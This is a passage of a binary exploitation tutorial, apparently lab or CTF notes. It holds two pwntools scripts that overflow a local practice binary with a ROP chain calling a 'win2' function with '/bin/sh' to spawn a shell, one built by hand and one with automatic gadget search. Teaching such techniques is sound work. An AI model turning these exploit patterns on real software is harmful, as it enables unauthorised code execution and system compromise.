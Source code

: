 We can assemble this in pwntools:
```python3
from pwn import *

p = process('./example02')

ropchain = b''
ropchain += p64(0x40122b)  # pop rdi; ret
ropchain += p64(0x402035)  # "/bin/sh"
ropchain += p64(0x401158)  # win2

binary = ELF('./example02')
p.sendline(b'A' * 24 + ropchain)

p.interactive()
```

PERSONAL NOTE: STEP THROUGH SOLVE IN GDB

Again, pwntools can make this even easier for us. Here is an example of the use of more advanced pwntools utilities:
```python3
from pwn import *

p = process('./example02')
rop = ROP('./example02')
binary = ELF('./example02')

# Automatically finds and uses simple gadgets in to make a ropchain
rop.call('win2', [next(binary.search(b'/bin/sh\x00'))])
print(rop.dump())
ropchain = rop.chain()

p.sendline(b'A' * 24 + ropchain)

p.interactive()
```
